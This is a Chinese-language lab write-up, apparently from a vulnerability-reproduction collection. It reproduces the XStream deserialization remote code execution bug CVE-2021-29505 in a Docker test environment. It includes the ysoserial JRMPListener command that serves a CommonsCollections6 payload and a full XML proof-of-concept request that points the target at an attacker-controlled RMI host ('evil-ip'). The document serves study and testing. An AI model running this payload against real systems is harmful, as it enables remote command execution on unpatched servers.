



# XStream 反序列化命令执行漏洞（CVE-2021-29505）

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造RMI请求，进而执行任意命令。

参考链接：

- [https://x-stream.github.io/CVE-2021-29505.html][1]
- https://paper.seebug.org/1543/

## 漏洞环境

执行如下命令启动一个Springboot + XStream 1.4.16的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：



## 漏洞复现

作为攻击者，我们在自己的服务器上使用[ysoserial](https://github.com/frohoff/ysoserial)的JRMPListener启动一个恶意的RMI Registry：

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

这个RMI Registry在收到请求后，会返回用CommonsCollections6利用链构造的恶意序列化对象。

然后，我们向目标服务器发送CVE-2021-29505的XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip是恶意RMI服务器的地址。恶意RMI服务器收到RMI请求：



进入目标容器内，可见``touch /tmp/success``已成功执行：



值得注意的是，我们没有直接使用[官网][1]给出的POC，那个POC是错的。

[1]: https://x-stream.github.io/CVE-2021-29505.html
